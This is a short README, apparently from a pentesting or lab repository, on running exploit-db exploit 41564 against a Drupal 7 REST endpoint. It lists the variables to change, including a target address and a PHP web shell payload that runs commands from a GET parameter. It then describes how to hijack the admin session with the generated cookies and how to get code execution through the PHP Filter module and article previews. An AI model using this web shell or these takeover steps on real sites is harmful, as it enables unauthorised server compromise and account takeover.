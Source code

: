 # Drupal 7 Exploit

* Exploit: https://www.exploit-db.com/exploits/41564
* syntax errors on line 16 and 71

Modify these variables:
```
$url='10.10.10.100';
$endpoint_path='/rest';
$endpoint='rest_endpoint';
$file=[
  'filename'=>'shell.php',
  'data'=>'<?php echo(system($_GET["cmd"])); ?>'
];
```

# Usage

Running the exploit will create the specified PHP file as well as generate user.json and
session.json locally. The session file contains valid cookie data for the Drupal admin user, and it
is possible to directly paste PHP code into a new Drupal module. Logging in as the admin user is
fairly simple and can be achieved by creating a new cookie.

PHP execution can be achieved by enabling the PHP Filter module on the Modules page.
Afterwards, simply browse to Add content then to Article. Pasting PHP into the article body,
changing the Text format to PHP code and then clicking on Preview allows for easy code
execution.

